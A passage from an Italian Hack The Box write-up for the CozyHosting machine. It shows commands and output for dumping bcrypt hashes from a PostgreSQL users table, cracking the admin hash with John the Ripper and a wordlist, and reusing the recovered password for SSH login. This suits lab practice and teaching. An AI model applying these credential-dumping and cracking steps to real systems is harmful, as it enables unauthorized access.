 con `\c` ci collegiamo al database cozyhosting
```shell-session
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
```

con `\d` vediamo le tabelle contenute 

```shell-session
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
```


con `select * from users;` estrapoliamo il contenuto della tabella users

```
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

abbiamo degli hash gli salviamo e gli diamo in pasto a [John The Ripple](Note/Tool/John%20The%20Ripple.md)

```
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# cat hash.txt
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:29 DONE (2023-11-28 14:35) 0.03370g/s 94.64p/s 94.64c/s 94.64C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

nella fase di enumerazione abbiamo visto che abbiamo un utente di nome josh  proviamo a loggarci in ssh con questo utente utilizzando la password trovata

```shell-session
┌──(root㉿kali)-[/home/kali/htb/cozycloud]
└─# ssh josh@10.10.11.230
The authenticity of host '10.10.11.230 (10.10.11.230)' can't be established.
ED25519 key fingerprint is SHA256:x/7yQ53dizlhq7THoanU79X7U63DSQqSi39NPLqRKHM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.230' (ED25519) to the list of known hosts.
josh@10.10.11.230's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 28 01:38:49 PM UTC 2023
```